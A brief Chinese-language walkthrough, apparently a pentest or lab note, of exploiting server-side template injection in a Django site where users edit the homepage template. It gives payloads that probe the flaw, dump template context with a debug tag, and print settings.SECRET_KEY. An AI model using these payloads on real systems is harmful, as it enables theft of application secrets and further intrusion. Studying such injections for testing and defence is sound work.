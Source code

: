 网址首页的模板用户可以自由更改



验证漏洞：

```javascript
{{7*7}}
```

报错：

![](images/65E6A62805084FE689A8FD61DCE2359Bclipboard.png)

此时已经说明和服务端有交互存在漏洞



根据报错信息，知道这是一个django框架的网址

payload:

```javascript
{`%` debug %}
```

输出将包含可以在此模板内访问的对象和属性的列表



![](images/643DE0F6C9A241DF8E3C8364D3C00518clipboard.png)



可以使用setting对象



获取SECRET_KEY

payload:

```javascript
{{settings.SECRET_KEY}}
```


